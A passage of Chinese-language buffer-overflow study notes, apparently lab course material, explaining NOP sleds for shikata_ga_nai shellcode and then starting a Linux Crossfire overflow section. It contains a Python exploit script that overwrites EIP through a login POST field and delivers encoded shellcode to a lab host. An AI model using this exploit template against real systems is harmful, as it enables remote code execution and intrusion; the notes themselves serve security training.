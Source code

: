 与其他GetPC例程一样，shikata_ga_nai会在堆栈顶部写入一些数据。 最终，这将至少破坏几个字节，使其接近ESP寄存器所指向的地址

简而言之，GetPC例程的执行最终会更改解码器本身的几个字节（并可能更改了编码的Shellcode），这最终使解码过程失败并使目标进程崩溃

解决方案是在shellcode之前加入一些无操作（或NOP）指令这些指令不执行任何操作，只是将执行传递给下一条指令。 通过这种方式使用的这些指令（也称为NOP滑板或NOP滑片）将使CPU在NOP中“滑”直至到达有效载荷。

```python
#!/usr/bin/python
import socket 

shellcode = ( "\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1" "\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a" "\xf8\x13\xd3\x7b\x70\xf6\xe2\xbb\xe6\x73\x54\x0c\x6c\xd1\x59" "\xe7\x20\xc1\xea\x85\xec\xe6\x5b\x23\xcb\xc9\x5c\x18\x2f\x48" "\xdf\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\x78\xf9\xf0\x9d\x2f" "\xed\x75\xeb\xf3\x86\xc6\xfd\x73\x7b\x9e\xfc\x52\x2a\x94\xa6" ) 

try:
	print "\nSending evil buffer..." 
    
	filler = "A" * 780
    eip = "\x83\x0c\x09\x10"
    offset = "C" * 4
    nops = "\x90" * 10 
    
 	inputBuffer = filler + eip + offset + nops + shellcode
    
    content = "username=" + inputBuffer + "&password=A"
	buffer = "POST /login HTTP/1.1\r\n"
	........
	........
	buffer += "\r\n"
	buffer += content 
#发送包 
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("10.11.0.22", 80))
	s.send(buffer)
	s.close()
	print "\nDone!" 
except:
    print "\nCould not connect!"
    sys.exit()
```

## Linux BOF

> 最近的Linux内核和编译器已经实现了各种内存保护技术，例如数据执行保护（DEP），地址空间布局随机化（ASLR），以及stack Canaries。由于绕过这些保护机制已超出了本模块的范围， 本例Crossfire测试版本已重新编译，没有stack Canaries，ASLR和DEP

### 复现崩溃

启动目标程序

然后执行edb

